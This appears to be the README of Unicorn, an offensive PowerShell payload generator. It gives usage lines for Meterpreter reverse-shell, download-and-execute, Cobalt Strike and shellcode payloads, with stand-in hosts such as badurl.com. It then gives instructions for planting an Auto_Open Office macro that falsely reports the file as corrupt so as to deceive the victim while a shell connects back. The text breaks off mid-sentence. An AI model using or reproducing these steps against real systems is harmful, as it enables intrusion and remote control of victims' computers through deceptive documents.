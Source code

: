```
Credits: Matthew Graeber, Justin Elze, Chris Gates

Happy Magic Unicorns.

Usage: python unicorn.py payload reverse_ipaddr port <optional hta or macro, crt>
PS Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443
PS Down/Exec: python unicorn.py windows/download_exec url=http://badurl.com/payload.exe
Macro Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 macro
Macro Example CS: python unicorn.py <cobalt_strike_file.cs> cs macro
Macro Example Shellcode: python unicorn.py <path_to_shellcode.txt> shellcode macro
HTA Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 hta
HTA Example CS: python unicorn.py <cobalt_strike_file.cs> cs hta
HTA Example Shellcode: python unicorn.py <path_to_shellcode.txt>: shellcode hta
DDE Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 dde
CRT Example: python unicorn.py <path_to_payload/exe_encode> crt
Custom PS1 Example: python unicorn.py <path to ps1 file>
Custom PS1 Example: python unicorn.py <path to ps1 file> macro 500
Cobalt Strike Example: python unicorn.py <cobalt_strike_file.cs> cs (export CS in C# format)
Custom Shellcode: python unicorn.py <path_to_shellcode.txt> shellcode (formatted 0x00)
Help Menu: python unicorn.py --help
```

###                -----POWERSHELL ATTACK INSTRUCTIONS----

Everything is now generated in two files, powershell_attack.txt and unicorn.rc. The text file contains  all of the code needed in order to inject the powershell attack into memory. Note you will need a place that supports remote command injection of some sort. Often times this could be through an excel/word  doc or through psexec_commands inside of Metasploit, SQLi, etc.. There are so many implications and  scenarios to where you can use this attack at. Simply paste the powershell_attack.txt command in any command prompt window or where you have the ability to call the powershell executable and it will give a shell back to you. This attack also supports windows/download_exec for a payload method instead of just Meterpreter payloads. When using the download and exec, simply put python unicorn.py windows/download_exec url=https://www.thisisnotarealsite.com/payload.exe and the powershell code will download the payload and execute.

Note that you will need to have a listener enabled in order to capture the attack.

###                -----MACRO ATTACK INSTRUCTIONS----

For the macro attack, you will need to go to File, Properties, Ribbons, and select Developer. Once you do
that, you will have a developer tab. Create a new macro, call it Auto_Open and paste the generated code
into that. This will automatically run. Note that a message will prompt to the user saying that the file
is corrupt and automatically close the excel document. THIS IS NORMAL BEHAVIOR! This is  tricking the
victim to thinking the excel document is corrupted. You should get a shell through powershell injection
after that.

If you are deploying this against Office365/2016+ versions of Word you need to modify the first line of 
the output from: Sub Auto_Open()
 